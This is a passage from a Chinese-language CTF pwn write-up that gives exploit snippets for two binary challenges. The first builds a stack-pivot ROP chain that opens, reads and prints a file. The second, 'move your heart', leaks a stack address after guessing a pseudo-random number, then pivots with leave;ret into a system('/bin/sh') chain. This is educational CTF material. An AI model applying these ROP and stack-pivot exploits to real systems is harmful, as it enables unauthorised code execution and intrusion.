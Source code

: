 pl 6、7 再次构造，并调整 rsp

```bash
pl = b'a'*0x100+p64(bss+0x300)+p64(read)
p.send(pl)
pl = b'a'*0x100+p64(bss+0x400)+p64(read)
p.send(pl)
```

pl 8 构造的 rop 送入

```bash
syscall = libc_base + libc.sym['syscall']
pl = p64(0)+p64(rdi)+p64(2)+p64(rsi_r15)+p64(0x601200)+p64(0)+p64(syscall)
pl += p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x601200)+p64(0x100)+p64(read_addr)
pl += p64(rdi)+p64(0x601200)+p64(puts_addr)+p64(main)
#dbg()
p.send(pl)
```

‍

#### move your heart

首先伪随机数很好获取，绕过后到 back()，获取了 stack 地址

```bash
sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))
```

[![](assets/1701606597-0c76cc30bb643fc9c4ee5400908ed2c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170437-2b5949c2-845f-1.png)

首先第一点就是 back() 里的 read 就是向 stack 地址输入的

```bash
pl = p64(rdi) + p64(stack+0x18) + p64(system) + b'/bin/sh\x00' + p64(stack-0x8) + p64(leave_ret) 
dbg()
p.sendline(pl)
```

直接栈迁移到 pl 的前一栈帧处，然后执行

[![](assets/1701606597-034247293bcfb38aac5c0376c467c492.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170444-2f2085c0-845f-1.png)
